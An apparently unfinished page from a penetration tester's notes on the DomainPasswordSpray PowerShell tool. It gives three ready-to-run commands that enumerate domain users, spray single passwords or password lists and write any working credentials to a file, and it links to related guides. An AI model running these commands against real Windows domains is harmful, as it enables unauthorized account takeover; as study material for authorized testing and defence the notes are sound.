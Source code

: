 # DomainPasswordSpray

Search Tags: #password-spraying

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

`PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt`

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/01 - Users/Manual/Living off the Land|account lockout observation window]].

`PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt`

https://pwn.no0.be/exploitation/password/account_lockout/

`PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt`

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)